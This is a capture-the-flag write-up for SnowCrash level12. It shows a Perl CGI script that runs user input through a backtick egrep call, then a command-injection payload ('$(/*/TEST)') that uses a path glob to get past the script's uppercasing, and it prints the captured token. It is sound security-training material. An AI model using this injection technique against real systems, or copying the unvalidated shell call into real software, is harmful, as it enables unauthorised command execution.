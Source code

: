 We found this Perl script in the user's home directory:

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1]; # y
  $xx = $_[0]; # x
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) { # recupere le resultat
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

It's a lot of code for not much in the end. These two lines respectively set the variable x to uppercase and remove all after the first space:

```
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
```

This means that we can't directly enter commands like getflag, which would immediately turn into GETFLAG.

The rest of the code is not really interesting; it's useless in our exploitation. The vulnerability lies here:

```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```
In reality, user input is not validated, and we can write almost anything we want. The problem remains the capitalization.

To work around this problem, we can place the getflag command inside a file that is already named in uppercase; this allows us to bypass the two parameter modifications. We can then execute the script by sending a bash command as a parameter, such as $(./TEST).

I've created a small TEST script:

```bash
#!/bin/bash

getflag > /tmp/flag
```

The problem with this script is that it's located here: `/tmp/TEST`. The server is not in the tmp directory; it needs the absolute path. If we try to send the file path as a parameter, it will transform into `/TMP/TEST`.


As a solution, we can simply ask the server to execute all TEST scripts present in this file hierarchy: /*/TEST. This allows us to avoid entering /tmp in plain text and convert it to uppercase.

Don't forget to make the script executable:

```
chmod a+x TEST
```

And here is the payload.
```
level12@SnowCrash:/tmp$ curl '127.0.0.1:4646?x=$(/*/TEST)&y=salut'
.level12@SnowCrash:/tmp$^C
level12@SnowCrash:/tmp$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```